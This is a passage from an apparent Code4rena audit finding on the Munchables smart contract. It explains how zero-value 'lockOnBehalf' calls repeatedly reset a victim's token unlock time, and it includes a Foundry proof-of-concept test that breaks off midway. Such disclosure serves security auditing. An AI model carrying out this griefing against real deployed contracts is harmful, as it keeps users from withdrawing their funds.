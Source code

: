[Drynooo](https://github.com/code-423n4/2024-05-munchables-findings/issues/117), [Varun\_05](https://github.com/code-423n4/2024-05-munchables-findings/issues/115), [0xrex](https://github.com/code-423n4/2024-05-munchables-findings/issues/87), and [merlinboii](https://github.com/code-423n4/2024-05-munchables-findings/issues/553)*

### Impact

The protocol allows users to donate ether and/or tokens to another user via a `lockOnBehalf` function. This function lets the caller specify which address should be the recipient of these funds. However issues arise because the `lockOnBehalf` deposit resets the receivers `lockedToken.unlockTime` pushing the users unlock time for that token further back.

The code in question:

```solidity
    lockedToken.unlockTime = uint32(block.timestamp) + uint32(_lockDuration);
```

Therefore if a user has already locked tokens in the protocol, a malicious user can repeatedly call `lockOnBehalf` shortly before the current `unlockTime` and keep delaying the users ability to withdraw their tokens. This is compounded by the fact that the `lockOnBehalf` function has no minimum `_quantity` therefore the attacker doesn't have to give up any of their own tokens to acheive this.

Alternatively, this attack vector can also be used to deny a users ability to decrease their minimum lock duration. In this instance, the attacker would have to call `lockOnBehalf` with a non zero amount, meaning the following check in `setLockDuration` would cause a revert and stop the user from decreasing their lock duration:

```solidity
    if (
        uint32(block.timestamp) + uint32(_duration) <
        lockedTokens[msg.sender][tokenContract].unlockTime
        ) {
        revert LockDurationReducedError();
        }
```

### Proof Of Concept

The following tests outline both of these attack vectors.

The tests can be copied into the `MunchablesTest` foundry test suite.

Testing the `lockDuration` extension grief:

```solidity
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    function test_lockOnBehalfExtendsRecipientsUnlockTime() public {
        // Alice locks 10 ether in the protocol
        vm.deal(alice, 10 ether);
        vm.startPrank(alice);
        amp.register(MunchablesCommonLib.Realm.Everfrost, address(0));
        lm.lock{value: 10 ether}(address(0), 10 ether);
        vm.stopPrank();

        ILockManager.LockedTokenWithMetadata[] memory locked = lm.getLocked(address(alice));
        uint256 firstUnlockTime = locked[0].lockedToken.unlockTime;
        console.log("Unlock Time Start:", firstUnlockTime);

        // Some time passes
        vm.warp(block.timestamp + 5 hours);

        // Bob makes a zero deposit "on behalf" of alice
        vm.startPrank(bob);
        lm.lockOnBehalf(address(0), 0, alice);

        ILockManager.LockedTokenWithMetadata[] memory lockedNow = lm.getLocked(address(alice));
```